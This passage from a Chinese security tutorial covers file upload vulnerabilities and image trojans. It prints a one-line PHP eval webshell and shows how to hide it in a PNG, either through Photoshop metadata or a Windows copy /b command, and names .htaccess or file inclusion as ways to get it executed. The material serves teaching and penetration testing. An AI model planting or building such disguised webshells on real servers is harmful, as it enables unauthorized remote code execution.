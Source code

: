 # 原创
：  28-5 文件上传漏洞 - 图片马

# 28-5 文件上传漏洞 - 图片马

#### 一、**文件内容检测**

解析漏洞定义

控制文件是否被当做后端脚本处理

#### **二、图片马绕过**

图片马；在图片中包含一句话木马。利用解析漏洞如.htaccess 或文件包含漏洞，对图片马进行解析，执行其中的恶意代码。优势在于可以绕过多种防护机制。

#### **三、图片马制作方法:**

```
# 一句话马示例
&lt;?php @eval($_POST["pass"]);?&gt;
```

##### 1）使用Photoshop（ps），选择“文件”-&gt;“文件简介”，在文档标题或者作者处写入一句话木马。

<img alt="" height="713" src="https://img-blog.csdnimg.cn/direct/0de3f36d61694c2daf97b98cc74a8ecb.png" width="1200"/> <img alt="" height="717" src="https://img-blog.csdnimg.cn/direct/808c492c2cb1446c8a2a7a9c0c7d60c5.png" width="964"/>

##### 2）使用cmd命令行制作

先准备一张图片（随便截图搞一张就好），然后准备一个一句话马的php文件

```
# 在window下生成图片木马
copy a.png /b + post.php /a webshell.png
```

解释：
